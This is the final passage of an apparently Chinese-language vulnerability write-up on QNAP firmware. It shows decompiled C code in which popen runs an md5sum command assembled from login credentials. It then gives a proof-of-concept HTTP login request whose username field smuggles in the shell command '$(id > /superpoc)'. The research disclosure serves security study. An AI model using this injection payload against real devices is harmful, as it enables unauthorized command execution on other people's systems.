    local_498.tv_sec = (long)param_6;
    __readfds = (fd_set *)memset(auStack_488,0,0x80);
    uVar1 = uVar2 & 0x3f;
    if ((int)uVar2 < 1) {
      uVar1 = -(-uVar2 & 0x3f);
    }
    __readfds->fds_bits[(int)uVar2 / 0x40] = 1L << ((ulong)uVar1 & 0x3f);
    iVar3 = select(uVar2 + 1,__readfds,(fd_set *)0x0,(fd_set *)0x0,&local_498);
    if (iVar3 != 1) {
      if (param_5 != 0) {
        snprintf(acStack_408,0x400,"/usr/bin/killall -9 %s",param_5);
        system(acStack_408);
      }
      piVar4 = __errno_location();
      pcVar5 = strerror(*piVar4);
      qnap_log(3,&DAT_00143e42,"utils/util.c",0x3c2,"util_system_cmd_ex",
               "read process output timeout: cmd: %s: err: %s",param_1,pcVar5);
      goto LAB_0011ab58;
    }
  }
  fgets(param_2,(int)param_3,__stream);
LAB_0011ab58:
  if (param_4 == (int *)0x0) {
    pclose(__stream);
  }
  else {
    iVar3 = pclose(__stream);
    *param_4 = iVar3;
  }
  util_strip(param_2);
  return 0;
}

```

> 最后在`util_system_cmd_ex`中使用`popen`执行了命令造成了命令注入, 造成注入的原因是在生成md5加密的的值时, 将用户名和密码直接使用echo和md5sum命令,并且使用popen去执行.(已验证)

> 回到我上面说的判断, 由于没有实体设备测试，但初步确认是绑定qnap id并设置设备名称时会使用`qid_sys_set_qid_status`函数,默认设置为3，一般在设置设备时候使用`qcloud_control_tool bind * *` 去设置，只要配置不爆错一般是能够成功设置qid的状态的。(所以我初步认为只要设备绑定了qnapid和设备名称就可以造成命令注入，poc中需要将`qid_login`设置为`true`), 并且qnap会强烈的建议您使用他们的云服务, 基本上所有的设备都会去绑定, 以下是POC.

```https

POST /miro/api/v1/login HTTP/1.1
Host: 192.168.199.221
Content-Length: 113
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
baggage: sentry-environment=production,sentry-public_key=cd1cc31d0e574fb20f9153041f7ed837,sentry-trace_id=9dc990816a5e49b9a04d0d7c9da7625f
authorization: Bearer undefined
sentry-trace: 9dc990816a5e49b9a04d0d7c9da7625f-a99747e4fccdd528
content-type: application/json
Accept: */*
Origin: http://192.168.199.221
Referer: http://192.168.199.221/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: len=null
Connection: keep-alive

{"username":"Zh$(id > /superpoc)iy","password":"YXNkYWRhZGE=","force":false,"remember_me":false,"qid_login":true}

```

## The End

> 而在我写完这个文章时候今年的Pwn2Own还没有开始, 所以您如果在比赛前看到这个文章就说明在比赛之前的固件更新中修复了漏洞, 不然这个文章将在Pwn2Own比赛结束后出现.

> 现在这个时间我正在挖掘下一个目标，而在我为了搞清楚这个目标的功能抓耳挠腮时，qnap发布了足足四个更新，而我测试的版本是2.4.1.634 build 20240710，我完全相信qnap能够完全修补这些问题。